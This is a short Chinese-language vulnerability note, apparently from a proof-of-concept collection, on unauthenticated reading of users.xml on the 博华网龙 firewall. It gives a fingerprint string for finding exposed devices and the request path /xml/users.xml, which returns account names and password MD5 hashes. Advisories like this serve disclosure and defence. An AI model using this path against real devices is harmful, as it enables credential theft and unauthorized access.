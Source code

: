 # 博华网龙防火墙 users.xml 未授权访问

# 博华网龙防火墙 users.xml 未授权访问

## 漏洞描述

博华网龙防火墙 users.xml文件 可被任意用户读取，其中包含登录的账号密码

## 漏洞影响

```
博华网龙防火墙
```

## 网络测绘

```
"博华网龙防火墙"
```

## 漏洞复现

登录页面

![img](/images/202202162248506.png)

验证POC, 读取配置文件获取密码的Md5

```php
/xml/users.xml
```

![img](/images/202202162248359.png)

